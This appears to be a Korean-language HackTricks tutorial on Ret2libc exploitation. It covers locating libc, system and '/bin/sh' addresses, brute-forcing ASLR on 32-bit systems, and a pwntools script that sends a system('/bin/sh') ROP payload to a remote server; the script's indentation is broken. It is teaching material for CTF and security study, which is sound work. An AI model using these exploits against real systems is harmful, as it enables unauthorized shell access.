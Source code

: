 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **기본 정보**

**Ret2Libc**의 본질은 취약한 프로그램의 실행 흐름을 공격자가 제공한 쉘코드를 스택에서 실행하는 대신 공유 라이브러리 내의 함수(예: **system**, **execve**, **strcpy**)로 리디렉션하는 것입니다. 공격자는 스택의 반환 주소를 원하는 라이브러리 함수로 가리키도록 수정하는 페이로드를 작성하며, 호출 규약에 따라 필요한 인수가 올바르게 설정되도록 준비합니다.

### **예시 단계 (단순화)**

* 호출할 함수의 주소(예: system)와 호출할 명령(예: /bin/sh)을 가져옵니다.
* 명령 문자열을 가리키는 첫 번째 인수를 전달하고 함수로의 실행 흐름을 생성하기 위해 ROP 체인을 생성합니다.

## 주소 찾기

* 현재 머신에서 사용되는 `libc`가 메모리에 로드될 위치를 찾으려면: 

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

libc의 주소가 ASLR에 의해 변경되고 있는지 확인하려면 다음을 수행할 수 있습니다:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* 사용된 libc를 알면 `system` 함수의 오프셋을 찾는 것도 가능합니다:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* 사용된 libc를 알면 `/bin/sh` 함수의 오프셋을 찾는 것도 가능합니다:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF 사용하기

사용된 libc를 알면, Peda 또는 GEF를 사용하여 **system** 함수, **exit** 함수 및 문자열 **`/bin/sh`**의 주소를 얻는 것도 가능합니다:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps 사용하기

프로세스가 대화할 때마다 **자식 프로세스**를 생성하는 경우(네트워크 서버) 해당 파일을 **읽어보세요**(아마도 root 권한이 필요할 것입니다).

여기에서 프로세스 내에서 **libc가 로드된 정확한 위치**와 **각 자식 프로세스에 대해 로드될 위치**를 찾을 수 있습니다.

![](<../../../../.gitbook/assets/image (95).png>)

이 경우 **0xb75dc000**에 로드됩니다(이것이 libc의 기본 주소가 됩니다).

## 알 수 없는 libc

이진 파일이 로드하는 **libc를 모를 수도 있습니다**(서버에 접근할 수 없기 때문일 수 있습니다). 그런 경우 취약점을 악용하여 **주소를 유출하고 어떤 libc** 라이브러리가 사용되고 있는지 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

그리고 여기에서 pwntools 템플릿을 찾을 수 있습니다:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32비트에서 ASLR 우회하기

이러한 무작위 대입 공격은 **32비트 시스템에만 유용합니다**.

* 익스플로잇이 로컬인 경우 libc의 기본 주소를 무작위 대입하여 시도할 수 있습니다(32비트 시스템에 유용함):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 원격 서버를 공격하는 경우, **`libc` 함수 `usleep`의 주소를 브루트 포스 시도**할 수 있으며, 인자로 10을 전달합니다 (예: 10). 만약 어느 시점에 **서버가 응답하는 데 10초가 추가로 걸린다면**, 이 함수의 주소를 찾은 것입니다.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib 코드 예제

이 예제에서는 ASLR 브루트 포스가 코드에 통합되어 있으며, 취약한 바이너리는 원격 서버에 위치합니다:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib 코드 예제

다음 예제를 확인하세요:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (또는 puts)

이는 `printf`/`puts`를 특정 데이터와 함께 인수로 호출하여 **프로세스에서 정보를 유출할 수 있게** 합니다.

## Ret2printf

이는 기본적으로 **Ret2lib를 악용하여 `printf` 형식 문자열 취약점으로 변환하는 것**을 의미합니다. `ret2lib`를 사용하여 printf를 호출하고 이를 악용할 값을 전달합니다(쓸모없어 보이지만 가능함):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## 기타 예제 및 참고자료

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc의 함수 주소에 대한 유출을 제공하며, one gadget 사용
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64비트, ASLR 활성화, PIE 없음, 첫 번째 단계는 canary의 바이트 0x00까지 오버플로우를 채운 후 puts를 호출하여 유출하는 것입니다. canary로 ROP 가젯을 생성하여 puts를 호출하여 GOT에서 puts의 주소를 유출하고, `system('/bin/sh')`를 호출하는 ROP 가젯을 생성합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64비트, ASLR 활성화, canary 없음, 자식 함수에서 main의 스택 오버플로우. ROP 가젯을 사용하여 GOT에서 puts의 주소를 유출하고, 이후 one gadget을 호출합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64비트, PIE 없음, canary 없음, relro 없음, nx. write 함수를 사용하여 write (libc)의 주소를 유출하고 one gadget을 호출합니다.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
